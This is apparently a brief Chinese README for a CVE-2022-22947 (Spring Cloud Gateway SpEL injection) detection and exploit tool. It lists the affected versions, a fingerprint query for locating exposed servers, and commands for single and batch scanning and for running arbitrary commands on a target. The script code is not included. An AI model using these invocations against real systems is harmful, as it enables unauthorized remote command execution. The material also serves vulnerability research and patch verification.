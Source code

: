 Spring Cloud Gateway远程代码执行漏洞复现(CVE-2022-22947)
Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问ActuatorAPI的情况下，将可以利用该漏洞执行任意命令。
3.1.0、 3.0.0至3.0.6、 3.0.0之前的版本
app="vmware-SpringBoot-framework"

单个检测：python3 .\CVE-2022-22947-POC.py -t "http://0.0.0.0:1234"
批量检测：python3 .\CVE-2022-22947-POC.py -f "url.txt"

漏洞利用：python3 .\CVE-2022-22947-EXP.py -t "http://0.0.0.0:1234" -c  "cmd"


